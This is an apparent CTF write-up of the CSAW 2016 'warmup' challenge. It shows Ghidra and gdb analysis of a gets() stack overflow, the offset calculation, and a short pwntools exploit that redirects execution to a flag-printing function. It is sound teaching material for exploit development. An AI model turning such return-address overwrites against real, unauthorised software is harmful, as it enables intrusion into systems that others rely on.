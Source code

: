# Csaw 2016 Quals Warmup

Let's take a look at the binary:

```bash
$    file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
$    ./warmup
-Warm Up-
WOW:0x40060d
>15935728
```

So we can see that we are dealing with a 64 bit binary. When we run it, it displays an address (looks like an address from the code section of the binary, versus another section like the libc) and prompts us for input. When we look at the main function in Ghidra, we see this:

```c
void main(void)

{
  char easyFunctionAddress [64];
  char input [64];

  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(easyFunctionAddress,"%p\n",easy);
  write(1,easyFunctionAddress,9);
  write(1,&DAT_00400755,1);
  gets(input);
  return;
}
```

So we can see that the address being printed is the address of the function `easy` (which when we look at it's address in Ghidra we see it's `0x40060d`). After that we can see it calls the function `gets`, which is a bug since it doesn't limit how much data it scans in (and since `input` can only hold `64` bytes of data, after we write `64` bytes we overflow the buffer and start overwriting other things in memory). With that bug we can totally reach the return address (the address on the stack that is executed after the `ret` call to return execution back to whatever code called it). For what to call, we see that the `easy` function will print the flag for us (in order to print the flag, we will need to have a `flag.txt` file in the same directory as the executable):

```c
void easy(void)

{
  system("cat flag.txt");
  return;
}
```

So let's use gdb to figure out how much data we need to send before overwriting the return address, so we can land the bug. I will just set a breakpoint for after the `gets` call:

```
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave
   0x00000000004006a4 <+135>:    ret
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave
     0x4006a4 <main+135>       ret
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  info frame
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```

With a bit of math, we see the offset:

```
>>> hex(0x7fffffffde98 - 0x7fffffffde50)
'0x48'
```

So we can see that after `0x48` bytes of input, we start overwriting the return address. With all of this, we can write the exploit;

```python
from pwn import *

target = process('./warmup')
#gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = ""
payload += "0"*0x48 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './warmup': pid 4652
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
[*] Got EOF while reading in interactive
```

Just like that, we got the flag! As a sidenote, I've heard of instances where in certain enviornments the offset is `0x40` instead of `0x48`.
